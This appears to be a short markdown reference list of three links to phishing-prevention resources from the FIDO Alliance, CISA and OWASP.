- [FIDO Alliance - Phishing-Resistant MFA](https://fidoalliance.org/)
- [CISA - Capacity Building: Phishing Prevention & Guidance](https://www.cisa.gov/)
- [OWASP - Phishing Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/)
